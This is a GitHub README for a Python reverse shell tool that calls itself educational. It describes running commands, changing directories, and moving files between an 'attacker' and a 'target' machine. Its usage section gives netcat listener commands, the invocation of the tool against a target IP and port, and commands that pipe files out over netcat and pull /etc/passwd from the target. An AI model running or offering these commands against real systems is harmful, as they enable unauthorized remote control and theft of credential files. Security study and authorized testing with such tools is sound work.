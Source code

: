 # Reverse Shell Tool

This repository contains reverse shell tool written in Python. This tool is for educational purposes only and should be used in a controlled, authorized environment.

## Features

- Execute commands on the target machine.
- Change directory on the target machine.
- Upload files from the attacker's machine to the target machine.
- Download files from the target machine to the attacker's machine.

## Prerequisites

- Python installed on both the attacker's and target's machines.
- Network access between the attacker's and target's machines.
- Necessary ports open and not blocked by firewalls.

## Usage
git clone https://github.com/Killsecstasy/Reverse-Shell.git

cd Reverse-Shell

### Set Up the Listener

On the attacker's machine, set up a listener to receive the reverse shell connection. You can use `netcat` (nc) for this purpose.

```sh
nc -lvp YOUR_PORT
python3 reverse_shell.py
python reverse_shell.py -h
python reverse_shell.py <TARGET_IP> <TARGET_PORT>
whoami
cd /etc
upload test.txt
cat test.txt | nc -w 3 YOUR_TARGET_IP YOUR_PORT
download /etc/passwd
nc -lvp YOUR_PORT > passwd
